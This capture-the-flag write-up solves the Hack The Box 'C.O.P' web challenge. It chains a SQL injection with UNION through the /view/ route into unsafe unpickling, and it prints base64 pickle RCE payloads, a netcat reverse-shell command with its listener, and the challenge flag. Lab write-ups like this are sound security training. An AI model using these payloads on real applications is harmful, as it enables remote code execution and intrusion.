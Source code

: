 # [C.O.P](https://app.hackthebox.com/challenges/C.O.P)
Author: Nayanjyoti Kumar

## Description

> The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

## Solution

We receive an IP and port to a server and a zip file containing the _Python Flask_ application deployed on the server. According to the `Dockerfile`, the application is deployed in the `/app` directory and the `supervisord.conf` file lists paths to log files. The page displays a basic pickle-themed webshop. Since the application uses the Python package `pickle`, this might be a hint.


The page does not seem have any fields for user input and no cookies are used. The only place where any parameter can be manipulated is the endpoint for a product detail page, `/view/<product_id>`.

When we inspect the files `routes.py`, `models.py`, and `database.py`, we see that the value of `<product_id>` is used for a _sqlite3_ database query without ever being sanitized! As a test, we try the payload `/view/3';--` and the system displays the page correctly:


Now to find out how to exploit the vulnerability. As a first step, we try to execute the following SQLite commands using the vulnerability:

```
/view/3';INSERT INTO products (data) VALUES ("gASVgwAAAAAAAACMCF9fbWFpbl9flIwESXRlbZSTlCmBlH2UKIwEbmFtZZSMClRlc3QgVGl0bGWUjAtkZXNjcmlwdGlvbpSMCVRlc3QgRGVzY5SMBWltYWdllIwfL3N0YXRpYy9pbWFnZXMvcGlja2xlX3NoaXJ0LmpwZ5SMBXByaWNllIwDOTk5lHViLg==");--
/view/3';UPDATE products SET data='gASVgwAAAAAAAACMCF9fbWFpbl9flIwESXRlbZSTlCmBlH2UKIwEbmFtZZSMClRlc3QgVGl0bGWUjAtkZXNjcmlwdGlvbpSMCVRlc3QgRGVzY5SMBWltYWdllIwfL3N0YXRpYy9pbWFnZXMvcGlja2xlX3NoaXJ0LmpwZ5SMBXByaWNllIwDOTk5lHViLg==' WHERE id=3;--
```

However, this returns an internal server error. When we run the application locally using docker, we get the following error message in the terminal:

``` bash
sqlite3.Warning: You can only execute one statement at a time.
```

Only one query can be used at a time; query stacking is therefore not possible. We try to use a `UNION` statement instead:

``` sql
http://127.0.0.1:1337/view/1' AND FALSE UNION SELECT data FROM products WHERE id='3';--
```

This works and displys the "Dill Pickle Jar" page instead of the "Pickle Shirt" page.

Now we have to include a payload. Further analysis of the source code shows that the shop's products are stored in the database as pickled objects. When they are retrieved for generating a web page, these pickled objects are unpickled without any security precautions. The unpickling happens using the custom template filter `pickle` defined in `app.py`.

A web search for _"flask pickle vulnerability"_ gives us a web page describing pickeling in Python and why it is vulnerable when improperly used and how to exploit it [^1]. A second page has the source code for a small tool for generating suitable payloads [^2]. Using this tool, we generate a first test payload:

``` bash
> python3 exploit.py "uname -a"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVnVuYW1lIC1hCnAxCnRwMgpScDMKLg==
```

We adapt our query so that the page receives our payload instead of the product[^4]. As soon as the page unpickles the payload, it will get executed:

``` sql
http://127.0.0.1:1337/view/1' AND FALSE UNION VALUES ("Y3Bvc2l4CnN5c3RlbQpwMAooVnVuYW1lIC1hCnAxCnRwMgpScDMKLg==");--
```

We are successful! In the docker output, we see the output of our command:


After a lot of experimenting[^3], we find a working combination for a netcat shell. The command executed on the target is:

``` bash
> python3 exploit.py "nc host.docker.internal 1234 -e /bin/sh"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVm5jIGhvc3QuZG9ja2VyLmludGVybmFsIDEyMzQgLWUgL2Jpbi9zaApwMQp0cDIKUnAzCi4=
```

It is very important to use `host.docker.internal` as the target host for the reverse shell. Furthermore, it was not possible to use `/bin/sh -i` as command since this would always trigger an error on the target machine.

On the host machine, the following command was executed:

``` bash
> nc -l -p 1234
```

This resulted in a working reverse shell:


![cop-04](https://github.com/user-attachments/assets/3be2eba5-35ae-4fa9-afdf-aab9e7f37ab8)

However, when trying to replicate this solution on the real system, we soon realize that this solution does not work. Apparently, it is not possible to access external IP addresses from a Docker container.

This setback leads to the realization that a reverse shell had been overkill. Since we can already execute arbitrary shell commands at the target machine, we can just copy the flag to a location where we can access it on the web site.

We create a new payload:

``` bash
> python3 exploit.py "cp /app/flag.txt /app/application/static/flag.txt"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVmNwIC9hcHAvZmxhZy50eHQgL2FwcC9hcHBsaWNhdGlvbi9zdGF0aWMvZmxhZy50eHQKcDEKdHAyClJwMwou
```

And after calling the vulnerable page once using this payload, we find the flag where we just put it.

The flag is therefore:

```
HTB{n0_m0re_p1ckl3_pr0paganda_4u}
```

### Sources

[^1]: https://davidhamann.de/2020/04/05/exploiting-python-pickle/
[^2]: https://github.com/shafdo/pickle-payload-gen-python3
[^3]: https://www.varonis.com/blog/netcat-commands
[^4]: https://www.sqlitetutorial.net/sqlite-union/
